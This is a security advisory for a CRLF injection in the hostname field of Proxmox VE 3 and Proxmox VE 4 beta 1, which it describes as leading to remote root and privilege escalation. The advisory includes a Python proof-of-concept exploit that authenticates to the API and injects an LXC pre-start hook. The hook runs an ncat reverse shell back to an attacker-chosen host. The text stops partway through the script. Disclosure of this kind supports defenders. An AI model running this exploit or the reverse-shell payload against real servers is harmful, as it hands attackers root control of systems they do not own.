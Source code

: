 Proxmox VE 3/4 Insecure Hostname Checking (Remote Root Exploit, XSS, Privileges escalation)
===========================================================================================


Description
===========

A critical vulnerability has been found in Proxmox VE 3 (OpenVZ) and Proxmox VE 4 beta 1 (LXC) in the
virtual machine creating form allowing authenticated remote users to overwrite configuration files settings.


Configuration file overwriting
==============================

Because the Proxmox VE application doesn't check the
user-provided "hostname" POST parameter, it's
possible to overwrite configuration files using a CRLF injection.
In Proxmox VE 3, we successfully gained access to the host filesystem from a container and elevated our container capabilities, allowing us to obtain user credentials and sniff the network.
In Proxmox VE 4b1, because LXC allows "hooks" to execute commands, we successfully gained root privileges on the host.
It's also possible to exploit Proxmox clusters.

**Access Vector**: remote

**Security Risk**: high

Proof of Concept
----------------

The following exploit works for Proxmox VE 4 beta 1. The lxc.hook.pre-start configuration variable is used to trigger the ncat reverse-shell payload when the container is started.

    #!/usr/bin/env python

    import requests
    import socket
    import telnetlib
    from threading import Thread
    import argparse
    from time import sleep

    def exploit(target, username, password, vmid, template, realm, reverse, hostname):
        payload = "ncat %s %s -e /bin/sh" % reverse

        print "[~] Obtaining authorization key..."
        apireq = requests.post("https://%s/api2/extjs/access/ticket" % target,
                               verify=False,
                               data={"username": username,
                                     "password": password,
                                     "realm": realm})
        response = apireq.json()
        if "success" in response and response["success"]:
            print "[+] Authentication success."
            ticket = response["data"]["ticket"]
            csrfticket = response["data"]["CSRFPreventionToken"]
            createvm = requests.post("https://%s/api2/extjs/nodes/%s/lxc" % (target, hostname),
                                     verify=False,
                                     headers={"CSRFPreventionToken": csrfticket},
                                     cookies={"PVEAuthCookie": ticket},
                                     data={"vmid": vmid,
                                           "hostname":"xyz\nlxc.hook.pre-start=%s &&" % payload,
                                           "storage": "local",
                                           "password": "xyz",
                                           "ostemplate": template,
                                           "memory": 512,
                                           "swap": 512,
                                           "disk": 2,